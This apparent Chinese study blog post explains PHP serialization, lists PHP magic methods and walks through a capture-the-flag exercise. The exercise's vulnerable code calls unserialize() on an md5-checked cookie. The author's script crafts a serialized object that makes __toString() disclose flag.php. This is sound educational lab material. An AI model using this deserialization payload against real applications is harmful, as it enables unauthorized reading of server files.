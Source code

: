 ﻿---
title: Serialization-PHP
categories:
- Network_Security
- Web
- Serialization
- Principle
- PHP
tags:
- Network_Security
date: 2024-01-10 14:00:32
---

# 序列化漏洞

## 1. 序列化介绍

1. 序列化就是将对象状态转换为可保持或者可传输的格式（例如 Json）的过程。其逆过程就是反序列化，即将流数据转换成对象。

## 2. PHP 序列化

### 1. 序列化的函数：

1. 在 PHP 中，使用 `serialize()` 方法来序列化一个变量。

### 2. 例子

1. 假设有这样的一段代码：

    ```php
    $arr = array( 
      "0" => array( 
        "gameName" => "德乙", 
        "homeName" => "比勒费尔德", 
        "guestName" => "不伦瑞克", 
        "endTime" => "2015-08-21" 
      ), 
      "1" => array( 
        "gameName" => "英超", 
        "homeName" => "水晶宫", 
        "guestName" => "阿斯顿维拉", 
        "endTime" => "2015-08-22" 
      ) 
    ); 
    
    $serialize = serialize($arr); 
    echo $serialize; 
    ```

    然后其序列化的结果为：

    ```php
    a:2:{i:0;a:4:{s:8:"gameName";s:6:"德乙";s:8:"homeName";s:15:"比勒费尔德";s:9:"guestName";s:12:"不伦瑞克";s:7:"endTime";s:10:"2015-08-21";}i:1;a:4:{s:8:"gameName";s:6:"英超";s:8:"homeName";s:9:"水晶宫";s:9:"guestName";s:15:"阿斯顿维拉";s:7:"endTime";s:10:"2015-08-22";}} 
    ```

    将其放在 PHP 在线反序列化的网站中反序列化，得到：

    ### ![image-20220607194428014](image-20220607194428014.png)

### 3. PHP 常见的 magic 方法：

| 方法名                                        | 触发点                                                       |
| --------------------------------------------- | ------------------------------------------------------------ |
| `__construct`                                 | 在创建对象时初始化对象（类似于构造函数），用于变量的初始化   |
| `__destruct`                                  | 对象销毁时调用，即用户销毁或者内核自动销毁时调用（有点像析构函数） |
| `__get`                                       | 用于从不可访问的属性读取数据，即在调用私有属性的时候会自动执行 |
| `__set`                                       | 用于将数据写入不可访问的属性                                 |
| `__isset`                                     | 在不可访问的属性上调用 `isset()` 或 `empty()` 触发           |
| `__unset`                                     | 和 `__isset` 类似                                            |
| `__call`                                      | 在对象上下文中调用不可访问或者不存在的方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__callStatic`                                | 在对象上下文中调用不可访问或者不存在的静态方法时触发，即当调用对象中不存在的方法会自动调用该方法 |
| `__sleep`                                     | 在调用 `serialize()` 时先被调用，其一般的作用是清理对象或者提交未提交的数据，并返回一个包含 对象中所有应该被序列化的变量名称的 数组（就是可以指定被序列化的内容）。如果未返回任何内容，那么 `null` 就会被序列化，并产生错误。 |
| `__wakeup`                                    | 在调用 `unserialize()` 时先被调用，返回空值，通常用于执行重新链接数据库或者其他初始化操作。 |
| `__serialize`<br/>适用于 PHP 7.4.0 以上版本   | 优先级高于 `__sleep()` 且会替代其执行，如果对象继承实现了 `Serializable` 接口，那么该对象的 `serialize()` 将会被 `__serialize`() 替代。 |
| `__unserialize`<br/>适用于 PHP 7.4.0 以上版本 | 和 `__serialize()` 差不多，同样会替代 `__wakeup()`           |
| `__toString`                                  | 和 Java 的 `toString()` 类似                                 |
| `__clone`                                     | 当对象被复制时调用                                           |
| ...还有其他方法，用到后就补充                 |                                                              |

### 4. 反序列化例题：`__toString()` 的反序列化

1. `__toString()`，和 Java 的 `toString()` 很类似，当一个类被当作字符串使用的时候（例如打印出来），就会自动调用该方法。

2. 题目源代码如下：

    ```php+HTML
    <?php
    // 创建一个类
    Class readme{
        public function __toString()
        {
            // __toString() 的结果是将变量 source 指代的文件在网页中格式化显示。
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    // 用 GET 给 source 随便传值就可以获得源代码 
    if(isset($_GET['source'])){
        $s = new readme();
        $s->source = __FILE__;
        echo $s;
        exit;
    }
    // $todos = [];
    if(isset($_COOKIE['todos'])){
        $c = $_COOKIE['todos'];
        // 变量 h 获取 cookie 的前 32 位
        $h = substr($c, 0, 32);
        // 变量 m 获取 cookie 的 32 位向后的字符串
        $m = substr($c, 32);
        // 如果 m 的 md5 hash 值和 h 相等，则反序列化变量 m 的内容
        if(md5($m) === $h){
            $todos = unserialize($m);
        }
    }
    // 感觉这里可以应用，因为他序列化并且加密了（待学习补充）
    if(isset($_POST['text'])){
        $todo = $_POST['text'];
        $todos[] = $todo;
        $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    ![image-20220617162348376](image-20220617162348376.png)

5. 在 burpsuite 中设置 cookie 值（url 编码），让其反序列化并在 html 代码中遍历打印（打印类时就会调用 `__toString()`），从而将 `flag.php` 显示出来。

    ![image-20220617162642514](image-20220617162642514.png)

6. 待学习补充：text 的作用。



